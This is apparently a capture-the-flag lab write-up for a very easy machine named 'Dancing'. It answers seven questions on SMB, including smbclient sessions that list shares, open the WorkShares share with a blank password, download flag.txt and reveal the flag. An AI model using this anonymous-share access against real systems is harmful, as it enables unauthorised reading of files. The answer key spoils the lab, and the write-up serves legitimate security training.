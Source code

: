 ```yaml
---
date: 07/23/2022
---
```


# Machine Name: Dancing

## Difficulty: Very Easy
## Task #: 7
### Task 1:
 What does the 3-letter acronym SMB stand for? 

Answer: Server Message Block

### Task 2:
 What port does SMB use to operate at? 

 Answer: 445

### Task 3:
 What is the service name for port 445 that came up in our Nmap scan? 

 Answer: microsoft-ds

### Task 4:
 What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 

 Answer: -L 

### Task 5: 
 What is the name of the share we are able to access in the end with a blank password? 

```bash
$ smbclient -L 10.129.1.12
Enter WORKGROUP\gerbsec's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

 Answer: WorkShares

### Task 6
 What is the command we can use within the SMB shell to download the files we find? 

 Answer: get

### Task 7 
  Submit root flag:

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

		5114111 blocks of size 4096. 1731786 blocks available
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
get fl
		5114111 blocks of size 4096. 1731744 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\>
$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

 Answer: 5f61c10dffbc77a704d76016a22f1664
